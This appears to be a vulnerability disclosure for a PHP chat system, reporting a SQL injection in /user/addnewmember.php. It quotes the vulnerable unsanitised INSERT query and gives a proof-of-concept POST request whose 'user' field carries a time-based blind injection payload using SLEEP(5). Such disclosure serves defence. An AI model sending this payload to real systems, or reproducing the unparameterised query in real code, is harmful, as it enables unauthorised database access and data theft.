 # Chat System Using PHP has sql injection in /user/addnewmember.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/addnewmember.php



## describe


The user parameter in /user/addnewmember.php is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	$id=$_REQUEST['id'];
	$user=$_POST['user'];
	
	if (empty($user)){
	?>
		<script>
			window.alert('Please select user');
			window.history.back();
		</script>
	<?php
	}
	else{
	mysqli_query($conn,"insert into chat_member (userid, chatroomid) values ('$user','$id')");
	
	?>
		<script>
			window.alert('Member Added Successfully');
			window.history.back();
		</script>
	<?php
	}
?>
```

Inserting $_POST['user'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/addnewmember.php?id=1 HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3d6344gkrsj651acv0qni7dk6a
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 54

user=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

